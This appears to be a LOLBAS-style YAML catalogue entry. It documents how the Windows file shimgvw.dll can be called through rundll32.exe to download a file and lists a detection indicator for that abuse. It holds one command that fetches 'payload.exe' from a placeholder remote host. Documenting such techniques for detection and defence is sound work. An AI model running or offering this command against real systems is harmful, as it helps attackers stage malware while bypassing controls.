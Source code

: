 ```yaml
---
Name: Shimgvw.dll
Description: Photo Gallery Viewer
Author: Eral4m
Created: 2021-01-06
Commands:
  - Command: rundll32.exe c:\Windows\System32\shimgvw.dll,ImageView_Fullscreen http://x.x.x.x/payload.exe
    Description: Once executed, rundll32.exe will download the file at the URL in the command to INetCache. Can also be used with entrypoint 'ImageView_FullscreenA'.
    Usecase: Download file from remote location.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: c:\windows\system32\shimgvw.dll
  - Path: c:\windows\syswow64\shimgvw.dll
Detection:
  - IOC: Execution of rundll32.exe with 'ImageView_Fullscreen' and a protocol handler ('://') on the command line
Resources:
  - Link: https://twitter.com/eral4m/status/1479080793003671557
Acknowledgement:
  - Person: Eral4m
    Handle: '@eral4m'
---
```

